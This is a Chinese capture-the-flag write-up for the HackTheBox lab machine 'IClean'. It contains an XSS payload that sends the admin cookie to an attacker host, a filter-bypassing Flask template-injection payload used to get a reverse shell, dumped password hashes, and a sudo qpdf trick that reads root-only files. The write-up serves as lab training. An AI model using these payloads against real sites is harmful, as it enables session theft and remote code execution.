 # \[level:Medium] IClean

## 一 、信息收集

| 靶机信息 |                       |
| ---- | --------------------- |
| IP   | 10.129.99.246         |
| 域名   | http://capiclean.htb/ |

### 1.1 nmap扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ nmap -Pn 10.129.99.246
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-10 22:50 CST
Nmap scan report for capiclean.htb (10.129.99.246)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 122.72 seconds
```

### 1.2 url目录扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ dirsearch -u http://capiclean.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/a1ertx5s/reports/http_capiclean.htb/__24-04-10_23-08-03.txt

Target: http://capiclean.htb/

[23:08:03] Starting: 
[23:09:40] 200 -    5KB - /about
[23:12:01] 302 -  189B  - /dashboard  ->  /
[23:13:22] 200 -    2KB - /login
[23:13:25] 302 -  189B  - /logout  ->  /
[23:14:45] 403 -  278B  - /server-status
[23:14:46] 403 -  278B  - /server-status/
[23:14:46] 200 -    8KB - /services

Task Completed
```

扫描结果没啥用, 就一个dashboard值得关注.

### 1.3 指纹信息

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

开发框架是Flask,猜测漏洞为模板注入.

### 二、渗透过程

### 2.1 XSS获取管理员cookie

随便逛逛可以发现有一个quote页面,页面可以给管理员留言,尝试是否存在xss,能否利用xss获取管理员cookie.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>burp suite 抓包</p></figcaption></figure>

其中exp是url encode过的.

```html
<img src=x onerror=fetch("http://hackIP:Port/?cookie="+document.cookie);>
```

可以使用python3的http server进行cookie的捕获,结果如下

```
┌──(a1ertx5s㉿kali)-[~]
└─$ python3 -m http.server 959
Serving HTTP on 0.0.0.0 port 959 (http://0.0.0.0:959/) ...
10.129.99.246 - - [10/Apr/2024 23:21:57] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhaHiw.vNyGcFEurcPrFcHAjqEJsNVRkFo HTTP/1.1" 200 -
```

成功获取cookie, 将cookie加入到header中,再去访问dashboard.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

成功进入到dashboard页面.

### 2.2 Flask SSTI 反弹shell

开发框架是Flask,猜测漏洞为模板注入.

在Generate invoice下生成一个id,然后到Gnerate QR下尝试.

<figure><img src="../../.gitbook/assets/4ac119a9433cd746fa3d45d2e9b96d7.png" alt=""><figcaption></figcaption></figure>

可以发现qr\_link字段存在模板注入.一般的模板注入在这里是失效的,应该是存在黑名单之类的过滤手段,这里使用resquet和attr组合进行绕过,exp如下:

```
{{ request | attr("application") | attr("\x5f\x5fglobals\x5f\x5f") | attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os") | attr("popen")("uname -a") | attr("read")() }}
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

接下来就利用这个注入点反弹shell,需要进行url encode.

<figure><img src="../../.gitbook/assets/0f9992e7611a8efaed1c3810592ce7c.png" alt=""><figcaption></figcaption></figure>

成功获取www-data权限,查看app.py文件,发现数据库相关信息.

<figure><img src="../../.gitbook/assets/86edeef6eb3de119a224042dbc60d82.png" alt=""><figcaption></figcaption></figure>

连接数据库,在user表下发现账号以及口令的hash值.

```
select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```

爆破得出结果, 密码是 simple and clean

<figure><img src="../../.gitbook/assets/3018cd77605f4215a32ef3b030ea3b7.png" alt=""><figcaption></figcaption></figure>

ssh 登录,获得user flag.

<figure><img src="../../.gitbook/assets/665323368e4946e5b19a4929230adc8.png" alt=""><figcaption></figcaption></figure>

### 2.3 sudo提权

sudo -l 查看具有root权限的指令.

<figure><img src="../../.gitbook/assets/da89770f5e2ae6a35555b34f6f475b0.png" alt=""><figcaption></figcaption></figure>

有一个qpdf程序有root权限,去google一下这个指令.

存在以下选项,可以向一个文件中添加附件.

<figure><img src="../../.gitbook/assets/0ef87c4bf94c4c1850455af7783470a.png" alt=""><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --empty ./root.txt --add-attachment /root/root.txt --
```

<figure><img src="../../.gitbook/assets/978937122f00994d9d0ab5d9095b71f.png" alt=""><figcaption></figcaption></figure>

发现其中root.txt的部分出现了乱码.

再度查看qpdf的文档,发现存在qdf指令,可以使pdf可用text进行查看.

<figure><img src="../../.gitbook/assets/5e57302ba3ad4d49b2f7333bb0b81d5.png" alt=""><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --qdf --empty ./root.txt --add-attachment /root/root.txt  --
```

成功获取root flag.

<figure><img src="../../.gitbook/assets/d6534a98f4e0b5154c3cb0b223947ea.png" alt=""><figcaption></figcaption></figure>
